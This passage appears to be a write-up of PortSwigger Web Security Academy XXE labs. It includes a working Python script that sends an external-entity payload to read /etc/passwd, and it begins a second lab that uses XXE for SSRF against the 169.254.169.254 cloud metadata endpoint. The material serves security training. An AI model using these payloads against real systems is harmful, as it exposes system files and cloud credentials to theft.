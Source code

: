 Here's the script:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a61005103bb056880e0f82900800075'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
cookies = {
        'session':'CyubLLWyK9XPlBRj6SewtH3DwNPR9Oeb'
}

headers = {
        'Content-Type':'application/xml'
}
s = requests.Session()

xml = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck>
<productId>&test;</productId>
<storeId>1</storeId>
</stockCheck>
"""

r = s.post(url + '/product/stock',data=xml, proxies=proxies, verify=False, cookies=cookies, headers=headers)
print(r.text)
```

## Lab 2: XXE for SSRF

To solve lab, access `http://169.254.169.254/` and read some sensitive information from there.

When I used the same payload as above (with the `file:///etc/passwd` replaced with the HTTP URL), I get this:

![](../../.gitbook/assets/portswigger-xxe-writeup-image-1.png)

Appending `/latest` results in a different response:

![](../../.gitbook/assets/portswigger-xxe-writeup-image-2.png)
